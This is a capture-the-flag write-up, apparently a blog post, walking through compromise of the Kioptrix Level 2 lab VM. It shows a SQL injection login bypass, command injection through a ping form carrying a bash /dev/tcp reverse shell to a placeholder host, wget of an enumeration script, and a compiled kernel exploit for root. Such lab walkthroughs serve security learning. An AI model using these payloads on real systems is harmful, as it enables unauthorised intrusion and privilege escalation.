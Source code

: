 ```yaml
---
layout: post
title: Kioptrix Level 2
---
```

[Kioptrix Level 2](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

## Find IP of box
Our IP: x.x.x.49

`nmap -T5 <LHOST>/24`

Kioptrix is running on: x.x.x.4  

## Init NMap Scan

`nmap -sC -sV -oA nmap x.x.x.4`

 - Default Scripts
 - Service Detection
 - Output all formats
 
 ![Initial NMap Scan](/images/KioptrixL2/NMap1.JPG)

We have 6 ports open: 22 (ssh), 80 (http), 111 (rpcbind), 443 (ssl/https), 631 (ipp), 3306 (mysql)

I'll start with the HTTP port in which we are greeted with an Administration login page.

## HTTP - Port 80
### Gobuster

`gobuster dir -u http://x.x.x.4 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster.txt -x php,html,txt,xml`

Nothing useful

Same with Dirbuster for recurisve search

### SQL Injection

`' or '1'='1`

Enter in both Username and Password and we get a login

We see an option to ping a machine on the network which suggests we may have RCE

### RCE Check

I entered the machine IP into the box and it opens a new tab with the ping results. I'm assuming that the command it's running is simply: ping <IP> where the IP is the user entered text.
 
 We know the machine is running on linux so I appened ` | id` which proves successful.
 
 ![Ping RCE check](/images/KioptrixL2/PingID.JPG)
 
### NetCat
 
 Start a netcat listener on local machine
 
 `nc -lvnp 4444`
 
### RCE Reverse Shell
 
 Grab a reverse shell from (Pentest Monkey's Cheat Sheet)[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet] 
 
 `bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1`
 
 I entered `x.x.x.4 | bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1` into the website and we get reverse shell on our local machine as user apache
 
 Spawn a TTY shell using `python -c 'import pty; pty.spawn("/bin/sh")'` from (Netsec TTY Cheat Sheet)[https://netsec.ws/?p=337]
 
### Privilege Escalation
 
I started a python web server `python3 -m http.server` in my directory containing LinEnum.sh

`cd /tmp` and `wget http://x.x.x.49:8000/LinEnum.sh` to get the script onto the target and `chmod 700 LinEnum.sh` to be able to run it.

This gets us important system information such as CentOS release 4.5 (Final) and Linux version 2.6.9-55

`searchsploit linux kernel 2.6 centos` suggests we can use the `9545.c` exploit

To upload to the target machine, we use the same python webserver method as before

`gcc -o exploit 9545.c`

`chmod 700 exploit`

`./exploit`

`uid=0(root) gid=0(root) groups=48(apache)` and we are root
